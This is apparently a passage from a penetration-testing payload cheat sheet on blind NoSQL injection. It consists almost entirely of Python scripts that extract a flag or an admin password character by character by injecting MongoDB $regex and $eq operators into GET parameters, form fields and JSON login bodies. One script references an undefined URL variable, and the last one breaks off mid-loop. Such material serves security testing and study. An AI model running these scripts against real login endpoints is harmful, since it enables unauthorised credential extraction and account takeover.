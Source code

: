 ```javascript

```

## Blind NoSQL

```python
import requests, string

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(21):
    print("[i] Looking for char number "+str(i+1))
    for char in alphabet:
        r = requests.get("http://chall.com?param=^"+flag+char)
        if ("<TRUE>" in r.text):
            flag += char
            print("[+] Flag: "+flag)
            break

```
```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = {'ids': payload}, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c


```

### POST with JSON body
python script
```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
```